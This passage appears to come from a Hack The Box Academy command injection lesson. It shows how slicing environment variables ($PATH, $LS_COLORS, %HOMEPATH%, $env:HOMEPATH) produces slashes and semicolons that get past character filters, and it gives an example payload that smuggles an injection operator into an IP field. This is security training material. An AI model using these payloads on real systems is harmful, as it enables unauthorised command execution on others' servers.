 ```bash
DJMC@htb[/htb]$ echo ${PATH:0:1}

/
```

Note: When we use the above command in our payload, we will not add `echo`, as we are only using it in this case to show the outputted character.

We can do the same with the `$HOME` or `$PWD` environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator. For example, the following command gives us a semi-colon:

```bash
DJMC@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

### Exercise
Try to understand how the above command resulted in a semi-colon, and then use it in the payload to use it as an injection operator. Hint: The `printenv` command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.

### Example Payload
Let’s try to use environment variables to add a semi-colon and a space to our payload:

```bash
127.0.0.1${LS_COLORS:10:1}${IFS}
```

Result: As we can see, we successfully bypassed the character filter this time as well.

---

## Windows

The same concept works on Windows as well. For example, to produce a slash in Windows Command Line (CMD), we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\htb-student`), and then specify a starting position (~6 -> `\htb-student`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (-11 -> `\`):

```cmd
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same thing using the same variables in Windows PowerShell. With PowerShell, a word is considered an array, so we have to specify the index of the character we need. As we only need one character, we don't have to specify the start and end positions:

```powershell
PS C:\htb> $env:HOMEPATH[0]

\
```
